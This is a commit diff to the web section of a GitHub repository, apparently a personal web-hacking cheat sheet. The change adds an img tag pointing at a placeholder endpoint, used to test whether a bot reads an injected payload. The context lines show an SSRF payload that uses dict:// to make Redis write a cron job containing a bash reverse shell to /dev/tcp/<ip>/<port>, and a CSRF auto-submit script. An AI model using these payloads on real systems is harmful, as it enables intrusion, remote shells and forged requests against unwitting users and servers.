

Before and after one commit to 4nuit/Hacking, a Markdown page: web/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
add trick

````diff
--- a/web/README.md
+++ b/web/README.md
@@ -519,6 +519,9 @@ dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port
 <script>
  document.getElementById("autosubmit").submit();
 </script>
+
+<-- testing if the payload is read by the bot -->
+<img src=http://<endpoint>/logoo.jpg>
 ```
 
 `Protection:`
````
